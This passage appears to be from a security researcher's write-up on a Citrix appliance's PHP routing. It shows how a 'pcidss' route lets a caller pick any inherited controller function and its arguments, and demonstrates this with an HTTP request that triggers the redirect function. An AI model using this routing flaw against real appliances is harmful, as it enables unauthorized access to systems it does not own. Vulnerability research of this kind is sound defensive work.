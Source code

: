 ```php
$route['menu/cb\?(:any)'] = "common/menu/cb/$1";
[..]
```

*In a Dora the Explorer voice:* Do you know which one is different? Please hurry, I think I hear Swiper coming.. That's right! It's:

```php
$route['pcidss/([a-zA-Z_]+)\?(.+)'] = "pcidss/pcidss/$1/$2";
```

Why though? Well, most routes are mapped to either a specific PHP function (`create_folder` in `reporting.php` for example), or have an argument that maps to a specific function (`image_map/$1` in `reporting.php`).

That specific pcidss rule though, allows us to specify **both** the function to use and it's arguments. But only those that the `pcidss` class has access to. That class turns out to be an extension of the `abstract_controller` class:

```php
class pcidss extends abstract_controller
{
```
This means we have access to all functions in the `pcidss` and `abstract_controller` class. For example, the `redirect` function:

```php
public final function redirect($URL)
{
    redirect($URL);
}
```

Request:
```http
GET /pcidss/pcidss/redirect/testpath HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
Content-Type: application/json
DNT: 1
Connection: close
Content-Length: 0
```

Response:
```http
HTTP/1.1 302 Found
Date: Sat, 01 Feb 2020 09:25:30 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Location: /testpath
X-XSS-Protection: 1; mode=block
Content-Length: 2
Connection: close
Content-Type: text/html; charset=UTF-8
```

